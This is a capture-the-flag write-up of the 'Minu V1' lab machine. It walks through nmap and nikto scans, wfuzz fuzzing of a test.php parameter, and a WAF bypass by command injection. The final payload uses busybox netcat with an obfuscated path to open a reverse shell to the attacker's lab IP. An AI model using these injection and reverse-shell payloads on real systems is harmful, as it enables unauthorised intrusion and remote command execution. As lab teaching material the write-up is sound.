 # Minu V1 Write Up

### Getting the Ip address of the target machine I used arp-scan in local network

> target ip: 192.168.100.14

### Target Scanning using nmap

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.100.14                           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 03:10 EDT
Nmap scan report for 192.168.100.14
Host is up (0.0025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.27
MAC Address: 08:00:27:E8:55:D7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds

```

Only http port (80) is open, lets open it in web browser and got the following page
![homepage](screenshots/homepage.png)

Using the nikto tool to get the vulnearabilities

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Minu_v1]
└─$ nikto -h http://192.168.100.14/           
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.100.14
+ Target Hostname:    192.168.100.14
+ Target Port:        80
+ Start Time:         2025-09-20 11:11:15 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.27 (Ubuntu)
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 56a9aee1bb80f, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.27 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /test.php: This might be interesting.
+ 8102 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2025-09-20 11:13:49 (GMT-4) (154 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

So here I got the hidden file `test.php`
![test.php page](./screenshots/test_php.png)

Here is the test.php page but I didn't got any interesting stuff.

Now I tested, the local file inclusive vulnearability, but WAP (Web Application Firewall) blocks it, so we need to bypass the filters and for this we have to supply some payloads until we get some response

For this, I will be using `wfuzz`, a web application fuzzer used for brute-forcing and testing web parameters.

```bash
wfuzz -c -u 'http://192.168.100.14/test.php?file=FUZZ' -w /usr/share/wfuzz/wordlist/Injections/All_attack.txt --hc 403 --hw 159

# -u target URL
# -w wordlist
# --hc 403 hides responses with HTTP status code 403
# --hw 159 hides responses whose body has 159 words
```

Output:

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Minu_v1]
└─$ wfuzz -c -u 'http://192.168.100.14/test.php?file=FUZZ' -w /usr/share/wfuzz/wordlist/Injections/All_attack.txt --hc 403 --hw 159
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.100.14/test.php?file=FUZZ
Total requests: 468

=====================================================================
ID           Response   Lines    Word       Chars       Payload                 
=====================================================================

000000046:   200        41 L     163 W      2033 Ch     "|dir"                  
000000045:   200        41 L     162 W      2040 Ch     "|id"                   

Total time: 5.707429
Processed Requests: 468
Filtered Requests: 466
Requests/sec.: 81.99838

```

So I got the following payload `|dir` and `|id` 
![payload working](screenshots/payload_1.png)

### Bypassing WAF

So I tested and many payload and got the interesting one that is `which` through I go the nc binary path, so we can establish reverse shell connection with target machine using netcat, but we will need a vulnearable binary to execute the nc command

The target machine is having `busybox` binary and its path is `/bin/busybox` so we can use this to execute the netcat.

For busybox payload I will be using [GTFIO BIns](https://gtfobins.github.io/gtfobins/busybox/)

So the payload goes as:

```bash

http://192.168.100.14/test.php?file=shell;busybox /b?n/nc 192.168.100.5 4433  -e sh

```

and got the reverse shell

![reverse shell](./screenshots/rev_shell.png)
